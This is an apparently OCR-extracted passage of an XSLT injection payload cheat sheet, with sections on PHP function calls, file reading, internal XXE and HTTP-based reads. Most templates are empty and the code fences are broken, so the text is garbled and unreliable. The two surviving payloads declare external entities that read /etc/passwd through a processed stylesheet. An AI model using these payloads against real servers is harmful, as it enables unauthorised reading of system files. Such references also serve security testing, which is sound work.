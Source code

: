 ```
 -
 -
 -
 -
 -
 -
 -
</xsl:template></xsl:stylesheet>
```
```
### **Assert (var_dump + scandir + false)**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
    <body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
        
          

    </body>
</html>
```
```
## Read files

### **Internal - PHP**

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">

</xsl:template>
</xsl:stylesheet>
```
```
### **Internal - XXE**

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```
```
### **Through HTTP**

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">

</xsl:template>
</xsl:stylesheet>
```
```
```xml
<!DOCTYPE xsl:stylesheet [
<!ENTITY passwd SYSTEM "file:///etc/passwd" >]>
<xsl:template match="/">
&passwd;
</xsl:template>
```